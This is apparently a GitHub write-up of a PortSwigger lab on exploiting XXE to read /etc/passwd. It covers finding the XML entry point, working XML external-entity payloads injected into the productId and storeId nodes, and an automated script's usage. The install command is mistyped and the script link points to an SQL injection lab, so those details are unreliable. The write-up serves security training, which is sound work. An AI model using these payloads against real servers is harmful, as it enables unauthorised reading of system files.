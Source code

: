 \+ Lab #1    : Exploiting XXE to retrieve files\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
To solve the lab, inject an XML external entity to retrieve the contents of the ```/etc/passwd``` file. <br/>

## End Goal:
Retrieve the content of ```/etc/passwd``` file.

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

> 📝: **NOTE:** <br/>
> Notice that there are 2 data values within the submitted XML document, which means to test systematically for XXE vulnerabilities, we need to test each data node in the XML individually.<br/>
> ![XXE5](https://user-images.githubusercontent.com/101610095/221444607-7e192970-4499-4734-bcb9-1f638b97288f.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to exploit this XXE vulnerability and retrieve the content of ```/etc/passwd``` file, we need to add a suitable ```DOCTYPE``` element that defines an external entity to the XML.
* An External Entity reference is specified using the ```SYSTEM``` keyword and its definition is the ```URL``` from which the value of the entity should be loaded.
* Since, we want to retrieve a local file, we will use ```file:///etc/passwd``` as the URL for our external entity.
* The malicious external entity  should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
```
* At this stage, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>```
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  ...
</stockCheck>
```
#### Testing for XXE:
* Let's start with the ```productId``` child element, and replace the *productId* number with a reference to our malicious external entity ```&file;```  :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    &file;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request](https://user-images.githubusercontent.com/101610095/221447680-dbba6f8b-447b-48a2-9848-d2ed61c2db12.png)
* Server's Response:<br/>
  ![response](https://user-images.githubusercontent.com/101610095/221447686-dd8b0acd-e3ab-41e2-a80c-262515be4c40.png)
* As you can see, we were able to retrieve the content of /etc/passwd file, which means the ```productId``` data node is vulnerable to XXE injection.<br/>
<br/>

* Now, let's test if the ```storeId``` data node is also vulnerable to XXE injection: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    &file;
  </storeId>
</stockCheck>
```
* Request: <br/>
![request](https://user-images.githubusercontent.com/101610095/221448126-053c31ab-2723-4dca-abac-98c3c1e7a91c.png)

* Response: <br/>
![response2](https://user-images.githubusercontent.com/101610095/221448138-8f0993f3-10c6-4c03-8111-c2cc00dfcf6c.png)
* It looks like the second data ```storeId``` node is not vulnerable to XXE injection. 

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%235/Lab-5.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-1.py [-h] -u URL -f FILE [-n] [-v]

Usage Example: python3 Lab-1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Enter the Lab URL
  -f FILE, --file FILE  Enter the path to the file you want to retrieve
  -n, --no-proxy        Do not use proxy
  -v, --verbose         Increase the verbosity level                             
```
![Lab-11](https://user-images.githubusercontent.com/101610095/221608991-703bbc38-dd50-4cb0-910c-acaedce84d64.gif)
